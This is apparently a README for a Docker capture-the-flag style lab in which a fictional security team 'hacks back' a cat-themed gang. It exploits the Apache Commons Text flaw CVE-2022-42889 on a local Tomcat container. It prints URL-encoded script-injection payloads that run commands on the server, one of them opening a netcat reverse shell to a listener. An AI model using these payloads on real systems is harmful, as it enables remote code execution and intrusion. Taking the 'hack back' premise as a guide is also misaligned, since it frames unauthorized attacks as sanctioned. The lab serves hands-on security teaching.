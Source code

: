 # LAB AUDITION

## PREREQUISITE
+ git
+ docker && docker compose

## SETUP THE ENVIRONMENT
+ `git clone https://github.com/kcoble/lab-audition`
+ `cd lab-audition`
+ `docker compose up`

### Configure the Kali Attack Box
+ `docker exec -it $(docker ps -aqf "name=attack-box") /bin/bash`
+ In the interactive shell, type `apt update && apt -y install kali-linux-headless`

## CHALLENGES
## Scenario
Globomantics is under cyber seige by the nefarious Dark Kittens Collective hacking conglomerate. As a member of the Globomantics security team, you've just been authorized corporate cover by the board to "hack back" in an attempt to take down these crafty cats. We've got a tip that the Dark Kittens Collective is running a web server at 10.0.0.3:8080, let's check it out!

### Enumeration
+ In the interactive attack box shell, type...
  + `curl -v '10.0.0.3:8080'`
  + `echo "VXNlIHNlYXJjaCBwYXJhbWV0ZXIgZm9yIE1GQQ==" | base64 -d`
  + `curl -XGET '10.0.0.3:8080/search?n=ghost'` (optional: repeat to see MFA code change)
+ We've found the Dark Kittens Collective Multi-Factor Authentication Generator (may come in handy later *future lab storyline enhancement*). This Apache Tomcat webserver (because of course it is) definitely uses scripting and some string replacement functionality. Cue research and we find there is a recently discovered vulnerability in Apache Commons Text that may come in handy if the Dark Kittens Collective hasn't patched yet! Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-42889

### Verification
+ Since this is a takedown, we have no reason for stealth and want to let these Dark Kittens know we are after them so to verify the vulnerability we're going to drop a calling card on the webserver.
+ Tip: Make sure to urlencode the script line so special characters are properly interpreted.
  + To leave a calling card in /tmp/pwned, type `docker exec -it $(docker ps -aqf "name=attack-box") curl -XGET '10.0.0.3:8080/search?n=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27touch%20%2Ftmp%2Fpwned%27%29%7D'`
  + To verify our calling card is on the webserver, type `docker exec -it $(docker ps -aqf "name=web-server") ls /tmp` 
    + *In real life, the Dark Kittens Collective webserver wouldn't be running in a local docker container (unless you are a hacker cat!) so we wouldn't be able to run this command.*

### Access
+ Leaving calling cards is cool, but we need more to take down these cats. Let's use the same proof of concept to get a reverse shell on the webserver.
+ In the interactive attack box shell, setup a listener `nc -nlvp 8888`
+ To iniative the reverse shell, run `docker exec -it $(docker ps -aqf "name=attack-box") curl -XGET '10.0.0.3:8080/search?n=%24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27nc%2010.0.0.7%208888%20-e%20%2Fbin%2Fbash%27%29%7D'`
  + Verify access, in the listener window see the connect line and type `id`
  + **Install the lazer pointer program and watch chaos of the Dark Kittens Collective as they destory each other from within.**
